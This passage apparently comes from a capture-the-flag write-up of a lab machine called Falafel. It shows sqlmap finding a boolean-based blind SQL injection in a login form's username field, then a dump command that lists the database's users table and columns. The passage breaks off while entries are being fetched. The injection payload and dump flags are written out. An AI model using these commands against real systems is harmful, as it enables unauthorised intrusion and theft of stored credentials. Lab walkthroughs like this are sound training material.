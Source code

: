    ...
    [08:25:48] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
    ...
    [08:26:26] [INFO] checking if the injection point on POST parameter 'username' is a false positive
    POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 301 HTTP(s) requests:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: username=chris' AND 8059=8059-- GlxT&password=chris
    ---
    [08:26:31] [INFO] testing MySQL
    [08:26:31] [INFO] confirming MySQL
    [08:26:31] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL >= 5.0.0
    [08:26:31] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.73'
    

Got it! Let’s now dump the database:

    
    
    root@kali# sqlmap -r login-chris.request --level 5 --risk 3 --batch --string "Wrong identification" --dump
            ___
           __H__
     ___ ___[,]_____ ___ ___  {1.2.5#stable}
    |_ -| . ["]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V          |_|   http://sqlmap.org
    ...
    08:31:30] [INFO] testing if the provided string is within the target URL page content
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: username (POST)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: username=chris' AND 8059=8059-- GlxT&password=chris
    ---
    [08:31:30] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
    web application technology: Apache 2.4.18
    back-end DBMS: MySQL 5
    ...
    [08:31:30] [INFO] retrieved: falafel
    [08:31:39] [INFO] fetching tables for database: 'falafel'
    [08:31:39] [INFO] fetching number of tables for database 'falafel'
    [08:31:39] [INFO] retrieved: 1
    [08:31:39] [INFO] retrieved: users
    [08:31:46] [INFO] fetching columns for table 'users' in database 'falafel'
    [08:31:46] [INFO] retrieved: 4
    [08:31:48] [INFO] retrieved: ID
    [08:31:50] [INFO] retrieved: username
    [08:32:02] [INFO] retrieved: passwor
    [08:32:46] [WARNING] turning off pre-connect mechanism because of connection time out(s)
    [08:32:46] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
    d
    [08:33:03] [INFO] retrieved: role
    [08:33:10] [INFO] fetching entries for table 'users' in database 'falafel'
